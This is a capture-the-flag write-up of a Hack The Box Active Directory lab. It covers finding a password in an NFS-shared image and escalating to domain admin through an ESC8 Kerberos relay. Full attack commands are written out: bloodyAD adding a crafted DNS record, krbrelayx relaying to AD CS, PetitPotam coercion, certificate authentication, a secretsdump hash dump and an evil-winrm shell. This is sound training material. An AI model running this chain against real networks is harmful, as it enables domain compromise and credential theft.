










This box is rated medium difficulty on HTB. It involves us discovering a password within an image on an NFS share, giving us valid domain credentials. We find that NTLM authentication is disabled and Active Directory Certificate Services is installed which is vulnerable to ESC8. Using a Krb relay attack to get a TGT for the domain computer account allows us to grab the administrator's NTLM hash and get a shell with full privileges over WinRM.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yields the typical AD ports.

```
└─$ sudo nmap -p53,80,88,111,135,139,389,445,464,593,636,2049,3268,3269,3389 -sCV 10.129.234.48 -oN fullscan-tcp 

Starting Nmap 7.98 ( https://nmap.org ) at 2026-05-04 22:12 -0400
Nmap scan report for 10.129.234.48
Host is up (0.059s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-05 02:12:51Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-05-05T01:56:15
|_Not valid after:  2027-05-05T01:56:15
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-05-05T01:56:15
|_Not valid after:  2027-05-05T01:56:15
|_ssl-date: TLS randomness does not represent time
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-05-05T01:56:15
|_Not valid after:  2027-05-05T01:56:15
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-05-05T01:56:15
|_Not valid after:  2027-05-05T01:56:15
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-05-05T02:14:14+00:00; -12s from scanner time.
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Not valid before: 2026-05-04T02:03:50
|_Not valid after:  2026-11-03T02:03:50

Host script results:
|_clock-skew: mean: -12s, deviation: 0s, median: -12s
| smb2-time: 
|   date: 2026-05-05T02:13:38
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.82 seconds
```

Looks like a Windows machine with Active Directory components installed on it, more specifically a Domain Controller. LDAP is leaking the Fully Qualified Domain Name of `DC-JPQ225.cicada.vl` which I add to my `/etc/hosts` file. There are quite a lot of ports open so I'll focus on SMB, NFS, and LDAP to gather information initially but leave subdirectory and subdomain scans for the web server running in the background.

## Service Enumeration
Checking out the landing page on port 80 shows the standard Microsoft IIS index, so the web server will most likely host nothing unless we get an interesting hit back from the scans. 



Testing for Guest/Null authentication over SMB and RPC show that both are not supported. Judging from the Netexec output, NTLM authentication is disabled on this domain, making things a bit trickier.



### NFS Profiles Share
Nmap discloses an NFS server bound to port 2049, and by listing all available mounts that are exported, we find a profiles share.

```
└─$ showmount -e DC-JPQ225.cicada.vl
                                                                                                                                                                                     
└─$ sudo mkdir -p /mnt/nfs_share
                                                                                                                                                                                     
└─$ sudo mount 10.129.234.48:/profiles /mnt/nfs_share
```



After mounting it, I list all files present which just gives us two images for the Administrator and a user named Rosie.Powell. 

```
└─$ find .           
.
./Administrator
./Administrator/Documents
find: './Administrator/Documents': Permission denied
./Administrator/vacation.png
./Daniel.Marshall
./Debra.Wright
./Jane.Carter
./Jordan.Francis
./Joyce.Andrews
./Katie.Ward
./Megan.Simpson
./Richard.Gibbons
./Rosie.Powell
./Rosie.Powell/Documents
find: './Rosie.Powell/Documents': Permission denied
./Rosie.Powell/marketing.png
./Shirley.West
```

### Password in Image
The first is just a photo of a man parachuting, however the second contains what looks to be a password on a stickynote.



## Exploitation

### Discovering AD CS
Since NTLM authentication is disabled, we will need to grab a TGT using these user credentials and specify to use Kerberos auth instead. Exporting it to the `KRB5CCNAME` variable allows us to use it with tools like Netexec that support such option.

```
└─$ netexec smb DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k --generate-tgt Rosie 
                                                                                                                                                                                     
└─$ export KRB5CCNAME=Rosie.ccache
```



At this point, we can brute-force RIDs to get a list of user accounts on the domain, opening up a few doors for us.

```
└─$ nxc smb DC-JPQ225.cicada.vl -k --rid-brute 4000
```



I spend some time attempting to Kerberoast and AS-REP Roast these accounts, however nothing comes of it so I fire up Bloodhound to map the domain along with any permissions our current user may have. Enumerating SMB shares shows one named CertEnroll which reveals that Active Directory Certificate Services is installed as well.

```
└─$ nxc smb DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k --shares
```



I use [Certipy-AD](https://github.com/ly4k/Certipy) to discover any vulnerable templates the our current user is allowed to enroll with.

```
└─$ certipy-ad find -target DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k -dc-ip 10.129.234.48 -vulnerable -stdout
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'cicada-DC-JPQ225-CA' via RRP
[*] Successfully retrieved CA configuration for 'cicada-DC-JPQ225-CA'
[*] Checking web enrollment for CA 'cicada-DC-JPQ225-CA' @ 'DC-JPQ225.cicada.vl'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : cicada-DC-JPQ225-CA
    DNS Name                            : DC-JPQ225.cicada.vl
    Certificate Subject                 : CN=cicada-DC-JPQ225-CA, DC=cicada, DC=vl
    Certificate Serial Number           : 79DC2A820BFBEBBB4519D67CB6EB200B
    Certificate Validity Start          : 2026-05-05 01:59:52+00:00
    Certificate Validity End            : 2526-05-05 02:09:52+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CICADA.VL\Administrators
      Access Rights
        ManageCa                        : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        ManageCertificates              : CICADA.VL\Administrators
                                          CICADA.VL\Domain Admins
                                          CICADA.VL\Enterprise Admins
        Enroll                          : CICADA.VL\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
Certificate Templates                   : [!] Could not find any certificate templates
```

Near the end of the output, we find that web enrollment is enabled over HTTP which makes this domain vulnerable to ESC8.

## ESC8 Privilege Escalation
If you're unfamiliar with this attack vector - ESC8 is an Active Directory Certificate Services misconfiguration where certificate enrollment endpoints (such as Web Enrollment or CES/CEP) accept certificate requests from already-authenticated users and allow certificate templates that can authenticate to the domain. Even with NTLM disabled, an attacker who compromises a privileged account through another method - such as stolen credentials, Kerberos delegation abuse, or a relayed Kerberos session - can request a certificate for that identity, then use PKINIT in Kerberos to authenticate as that user or machine and gain domain-level administrative access.

The [Certipy Wiki](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc8-ntlm-relay-to-ad-cs-web-enrollment) page explains this method in greater detail, but essentially we just need to force the machine to authenticate back to us, then we relay the auth to AD CS which enables us to get a certificate as the computer account. At which point we can dump all domain hashes by abusing its rights.

The more common way to do this would be to add a Windows VM to the domain and run a tool called RemoteKrbRelay(https://github.com/CICADA8-Research/RemoteKrbRelay) which handles most of the exploitation process. I prefer to do things from my Kali machine, so I proceed with another technique in which we add a malicious DNS record that will trick the server into requesting a Kerberos ticket for the DC-JPQ225$ computer account while connecting back to the malicious record that's pointed at an attacker.

### PFX Certificate via KRB Relay
I will be heavily referring to this fantastic [SynAckTiv article](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx.html) along the way, starting by adding the malicious DNS record with [BloodyAD](https://github.com/CravateRouge/bloodyAD). The records structure is a bit strange but necessary for the exploit:

```
└─$ bloodyAD -u 'Rosie.Powell' -p 'Cicada123' --host DC-JPQ225.cicada.vl -d cicada.vl -k add dnsRecord 'DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' 10.10.14.243
[+] Adding "DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" to "DC=cicada.vl,CN=MicrosoftDNS,DC=DomainDnsZones,DC=cicada,DC=vl"
[+] DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA has been successfully added
```

I will use [krbrelayx](https://github.com/dirkjanm/krbrelayx) in order to relay the Kerberos authentication onto the AD CS web server, however other tools like [KrbRelay-SMBServer](https://github.com/decoder-it/KrbRelay-SMBServer) or CertipyAD's relay module will more than suffice here too. I start the relay while targeting the AD CS web server as it listens over SMB.

```
└─$ krbrelayx -t 'http://DC-JPQ225.cicada.vl/certsrv/certfnsh.asp' --adcs --template DomainController -v 'DC-JPQ225$' 
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client SMB loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server

[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server
[*] Servers started, waiting for connections
```

Now we'll need something to coerce the server to authenticate to our machine, which will send the authentication to the AD CS web server. I tend to use PetitPotam as it's what I'm most familiar with, but I couldn't get it working on its own so I use Netexec's built-in _coerce_plus_ module while specifying the method to use **PetitPotam**:

```
└─$ nxc smb DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k -M coerce_plus -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=PetitPotam
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:None) (NTLM:False)
SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123 
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        VULNERABLE, PetitPotam
COERCE_PLUS DC-JPQ225.cicada.vl 445    DC-JPQ225        Exploit Success, efsrpc\EfsRpcAddUsersToFile
```

That succeeds, giving us a valid .pfx certificate file.

```
[...]
[*] SMBD: Received connection from 10.129.234.48
[*] HTTP server returned status code 200, treating as a successful login
[*] SMBD: Received connection from 10.129.234.48
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] HTTP server returned status code 200, treating as a successful login
[*] Skipping user DC-JPQ225$ since attack was already performed
[*] GOT CERTIFICATE! ID 88
[*] Writing PKCS#12 certificate to ./DC-JPQ225.pfx
[*] Certificate successfully written to file
```

Finally, we can use this PFX to authenticate to the DC and grab the computer account's NTLM hash and grab a TGT for it.

```
└─$ certipy-ad auth -pfx DC-JPQ225.pfx -dc-ip 10.129.234.48
```



Using the ccache file, we can recover the domain administrator's hash via Impacket's [secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) script:

```
└─$ export KRB5CCNAME=dc-jpq225.ccache

└─$ impacket-secretsdump -k -no-pass cicada.vl/'dc-jpq225$'@'dc-jpq225.cicada.vl' -just-dc-user administrator
```



We can now use this to get a TGT for the administrator and after a bit of Kerberos configuration, we can grab a shell via WinRM.

```
└─$ impacket-getTGT cicada.vl/administrator@dc-jpq225.cicada.vl -hashes ':[REDACTED]'

└─$ export KRB5CCNAME=administrator@dc-jpq225.cicada.vl.ccache

└─$ nxc smb dc-jpq225.cicada.vl --generate-krb5-file krb5.conf

└─$ sudo cp krb5.conf /etc/krb5.conf

└─$ evil-winrm -i dc-jpq225.cicada.vl -r cicada.vl
```



Grabbing both flags under the administrator's desktop folder will complete this challenge. I hope this was helpful to anyone following along or stuck and happy hacking!
